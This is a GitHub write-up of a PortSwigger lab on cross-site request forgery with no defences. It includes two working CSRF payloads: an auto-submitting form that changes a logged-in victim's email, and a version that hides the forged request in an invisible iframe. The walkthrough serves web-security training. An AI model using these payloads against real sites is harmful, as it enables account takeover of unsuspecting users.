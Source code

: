 # CSRF vulnerability with no defenses

## Scenario
- Victim is currently logged into the vulnerable site
- Attacker sends malicious link to user \
NOTE: This is simulated via the exploit server in portswigger
- User clicks on the link
- The POST request is sent on behalf of the attacker
```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Attackology via BurpSuite Community edition and Expxloit server
1. Logged in as the user given in the lab
2. Pulled BurpSuite to intercept the traffic during the email change process
3. Deliberately changed the email of the account to determine the endpoint and method of the vulnerable email change functionality
![image](https://user-images.githubusercontent.com/64616459/148880204-3d9197f1-0a90-4f8e-a1bd-bc684e7be5c7.png)
4. In BurpSuite, looked at the HTTP history to look fo the email change endpoint and sent it to repeater
![image](https://user-images.githubusercontent.com/64616459/148880252-68b3abc9-d257-4229-91de-1719cbabf9c1.png)
5. Went to the exploit server given in the lab and added the endpoint to the form 
6. ```document.forms[0].submit``` automatically sends the POST request to the vulnerable site
![image](https://user-images.githubusercontent.com/64616459/148880927-432779d3-1121-4d39-be79-e44035108a1c.png)
7. Send the payload to the victim
![image](https://user-images.githubusercontent.com/64616459/148880701-4820a8b8-ae53-4101-bf44-09c7895fab19.png)
8. Make the email was changed after sending the payload
![image](https://user-images.githubusercontent.com/64616459/148881951-8cf931c3-f831-46be-af02-3d1baa891fc0.png)

## Attacklogy via python simple server hosting a html page
1. Logged in as user in the lab
2. Create the html page with following code:
```html
<html>
    <body>
        <h1>Hello World!</h1>    
        <!--
            iframe => An inline frame is used to embed another document within the current HTML document
            The iframe with STYLE="DISPLAY:NONE" ensures that the victim does not recognize the page being redirected

            Reference:
            HTML Iframes  
            https://www.w3schools.com/html/html_iframe.asp
         -->
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <!--
            Target attribute specifies a name or a keyword that indicates where to display the response that is received after submitting the form
            In this example,  the value of the target displays the response to a iframe
            Reference:
            HTML <form> target Attribute 
            https://www.w3schools.com/TAGs/att_form_target.asp
        -->
        <form action="https://acb01f961f46be3ec0d009ff00960036.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="pcap_panwed_you_one_more_tme@pcap.com">
        </form>
        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```
3. Run ```python -m SimpleHTTPServer```
4. Connect to ```localhost:8000``` 
5. Check in the lab if the email was changed

## Reference 
Lab: CSRF vulnerability with no defenses \
https://portswigger.net/web-security/csrf/lab-no-defenses

Cross-site request forgery (CSRF) \
https://portswigger.net/web-security/csrf

CSRF - Lab #1 CSRF vulnerability with no defenses | Long Version \
https://www.youtube.com/watch?v=BBosVSNiJdM

## Special Thanks!!!
Rana Khalil for the html source \
https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/csrf/lab-01/csrf-lab01.html


